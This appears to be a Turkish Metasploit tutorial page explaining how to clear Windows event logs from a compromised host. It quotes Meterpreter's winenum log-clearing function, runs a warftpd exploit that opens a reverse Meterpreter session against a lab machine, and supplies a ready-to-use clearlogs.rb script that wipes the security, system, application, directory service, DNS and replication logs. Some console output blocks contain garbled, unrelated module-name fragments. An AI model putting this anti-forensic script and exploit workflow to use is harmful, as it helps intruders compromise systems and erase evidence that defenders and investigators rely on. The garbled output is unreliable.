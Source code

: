 ```yaml
---
draft: false
title: MSF Log Yönetimi
linkTitle: MSF Log Yönetimi
translationKey: msf-log-management
weight: 290
date: 2017-06-05T13:21:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek için öncelikle meterpreter in sağladığı winenum script kodlarının nasıl çalıştığına bakalım.
url: /tr/msf-log-yonetimi/
featured_image: /images/metasploit.jpg
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
---
```

Bazen hedef bilgisayarda yaptığınız işlemlerin log kayıtlarını temizlemek isteyebilirsiniz. Bu temizleme işlemi için öncelikle meterpreter in sağladığı `winenum` script kodlarının nasıl çalıştığına bakalım. Script dosyasını Metasploit Framework klasörünüzün altında `/usr/share/metasploit-framework/scripts/meterpreter/winenum.rb` adresinde bulabilirsiniz. Bu dosya içerisinde bir çok bölüm bulunmaktadır. Biz şimdilik sadece `# Function for clearing all event logs` kısmıyla ilgileneceğiz.

```bash
# Function for clearing all event logs
def clrevtlgs**()**
  evtlogs = [
    'security',
    'system',
    'application',
    'directory service',
    'dns server',
    'file replication service'
  ]
  print_status("Clearing Event Logs, this will leave and event 517")
  begin
    evtlogs.each do |evl|
      print_status("\tClearing the #{evl} Event Log")
      log = @client.sys.eventlog.open(evl)
      log.clear
      file_local_write(@dest,"Cleared the #{evl} Event Log")
    end
    print_status("All Event Logs have been cleared")
  rescue ::Exception => e
    print_status("Error clearing Event Log: #{e.class} #{e}")

  end
end
```

Programlama ile ilgilenenler kodları ve fonksiyonun nasıl çalıştığını rahatlıkla anlayacaktır. Yukarıdaki kodların ne işe yaradığını özetle açıklayalım. `evtlogs.each do |evl|` döngüsü, Windows’a ait ‘security’, ‘system’, ‘application’, ‘directory service’, ‘dns server’ ve ‘file replication service’ loglarını sırasıyla açar ve temizler.

Şimdi, hazır script yerine yukarıdaki dosyadan örnek alarak kendi script kodumuzu oluşturalım ve kaydedelim. Bunun için Meterpreter içnde Ruby kodlamayı kullanacağız. Temizlikten önce Windows Log durumunu aşağıdaki resimden görebilirsiniz.

![](/images/Eventlog-00.png)

Biz sadece ‘system’ loglarını temizlemek istediğimizden yukarıdaki döngü içerisinden sadece `log = client.sys.eventlog.open(‘system’)` durumunu kullanacağız.

## Bu kısımda deneme yapıyoruz

Öncelikle hedef bilgisayarda bir meterpreter shell açmış olmalıyız.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 2 opened (172.16.104.130:4444 -> 172.16.104.145:1246)
```

Ardından meterpreter shell içerisinden Ruby kodlayıcısını `irb` komutuyla çalıştırıyoruz ve aşağıdaki kodları yapıştırıyoruz.

```bash
meterpreter > irb
> Starting IRB shell
> The 'client' variable holds the meterpreter client
> log = client.sys.eventlog.open('system')
=> #>#:0xb6779424 @client=#>, #>, #

"windows/browser/facebook_extractiptc"=>#, "windows/antivirus/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

Şimdi, meterpreter içerisinde `log.clear` komutuyla logların temizlenip temizlenmediğini kontrol edelim.

```bash
> log.clear
=> #>#:0xb6779424 @client=#>,

/trendmicro_serverprotect_earthagent"=>#, "windows/browser/ie_iscomponentinstalled"=>#, "windows/exec/reverse_ord_tcp"=>#, "windows/http/apache_chunked"=>#, "windows/imap/novell_netmail_append"=>#
```

![](/images/Eventlog-01.png)

Meterpreter içerisinde Ruby kodlayıcısı kullanarak basit bir log temizleme denemesi yaptık ve yaptığımız kontrolde başarılı olduk. Bu yaklaşımı kullanarak kendi Script kodlarımızı yazabiliriz.

## Tüm Logları Temizleme

Aşağıdaki kodları bir dosyaya yazarak `/usr/share/metasploit-framework/scripts/meterpreter/` klasörüne `clearlogs.rb` adıyla kaydedin.

```bash
evtlogs = [
        'security',
        'system',
        'application',
        'directory service',
        'dns server',
        'file replication service'
        ]
print_line("Clearing Event Logs, this will leave an event 517")
evtlogs.each do |evl|
        print_status("Clearing the #{evl} Event Log")
        log = client.sys.eventlog.open(evl)
        log.clear
end
print_line("All Clear! You are a Ninja!")
```

Artık bu yeni oluşturduğunuz Script kodlarını yeni açtığınız Meterpreter oturumlarında çalıştırabilirsiniz.

```bash
msf exploit(warftpd_165_user) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Connecting to FTP server 172.16.104.145:21...
> Connected to target FTP server.
> Trying target Windows 2000 SP0-SP4 English...
> Transmitting intermediate stager for **over-sized stage...(191 bytes)
> Sending stage (2650 bytes)
> Sleeping before handling stage...
> Uploading DLL (75787 bytes)...
> Upload completed.
> Meterpreter session 1 opened (172.16.104.130:4444 -> 172.16.104.145:1253)

meterpreter > run clearlogs
Clearing Event Logs, this will leave an event 517
> Clearing the security Event Log
> Clearing the system Event Log
> Clearing the application Event Log
> Clearing the directory service Event Log
> Clearing the dns server Event Log
> Clearing the file replication service Event Log
All Clear! You are a Ninja!
meterpreter > exit
```

Aşağıdaki resimde görüldüğü gibi tüm loglar temizlenmiştir. Geriye sadece 517 numaralı işlem kalmıştır. O işlemde halen meterpreter’in çalıştığı proses olduğundan halen aktif durumdadır.

![](/images/Eventlog-03.png)

Bu yazıda, Metasploit Framework içerisinde bulunan Scriptleri örnek alarak kendi script dosyamızı yazmayı ve log temizlemeyi göstermeye çalıştık. `/usr/share/metasploit-framework/scripts/meterpreter/` klasöründe bulunan diğer script dosyalarını da incelemenizi tavsiye ediyoruz. Bu sayede elinizdeki imkanları da öğrenmiş olacaksınız.
